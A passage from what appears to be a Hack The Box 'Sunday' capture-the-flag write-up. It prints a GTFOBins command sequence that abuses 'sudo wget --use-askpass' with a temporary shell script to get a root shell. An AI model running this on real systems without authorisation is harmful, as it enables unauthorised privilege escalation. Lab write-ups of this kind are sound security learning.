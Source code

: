 In the **GTFOBins** website there is one list of commands which help us to privEsc.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

![Untitled](/HTB/sunday-8.png)

We are **root** 😎

![Untitled](/HTB/sunday-9.png)

**Thank you for reading, and happy hacking! 😄**
